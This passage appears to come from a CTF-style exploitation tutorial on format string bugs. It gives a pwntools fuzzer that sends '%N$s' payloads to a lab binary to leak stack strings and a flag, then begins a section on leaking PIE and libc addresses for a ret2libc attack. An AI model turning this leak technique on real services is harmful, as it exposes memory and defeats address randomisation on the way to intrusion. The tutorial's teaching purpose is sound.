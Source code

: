 ## Fuzzer - Search for strings

We can craft a fuzzer to retrieve strings from the stack.

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format_vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

```
37: b'\x98$\xad\xfb\xe0\xd2\x04\x08\xe0\xd2\x04\x08\xe0\xd2\x04\x08\xe0\xd2\x04\x08\xe0\xd2\x04\x08\xe0\xd2\x04\x08\xe0\xd2\x04\x08\xe0\xd6\x04\x08\n> '
39: b'flag{foRm4t_stRinGs_aRe_DanGer0us}\n> '
40: b'\x01\n> '
```

# Leak PIE and Libc addresses (Ret2libc remote)

We can combine two techniques that have been disscussed in this post earlier. We can use the format string vulnerability to bypass PIE and leak the remote libc address.

PIE is the same concept than ASLR but applied specifically to the binary. So if a binary is compiled with PIE, instead of see addresses in our debugger we will see offsets to the PIE Base address.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  printf@plt
0x0000000000001050  fgets@plt
0x0000000000001060  gets@plt
0x0000000000001070  setgid@plt
0x0000000000001080  setuid@plt
0x0000000000001090  __cxa_finalize@plt
0x00000000000010a0  _start
0x00000000000010d0  deregister_tm_clones
0x0000000000001100  register_tm_clones
0x0000000000001140  __do_global_dtors_aux
0x0000000000001180  frame_dummy
0x0000000000001185  enter_name
0x00000000000011d6  vuln
0x00000000000011f8  main
```